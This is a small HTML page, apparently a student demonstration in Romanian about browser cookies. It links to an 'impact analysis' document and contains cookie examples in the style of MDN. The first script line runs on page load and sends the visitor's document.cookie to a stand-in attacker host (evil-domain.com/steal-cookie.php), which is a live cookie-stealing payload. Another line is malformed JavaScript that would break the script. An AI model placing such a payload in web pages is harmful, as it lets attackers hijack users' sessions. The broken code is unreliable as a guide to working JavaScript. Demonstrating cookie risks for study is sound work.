 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = "browser_version="navigator.appVersion"";  

const cookieValue = document.cookie .split('; ') .find(row => row.startsWith('test2=')) .split('=')[1]; 

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
</body>
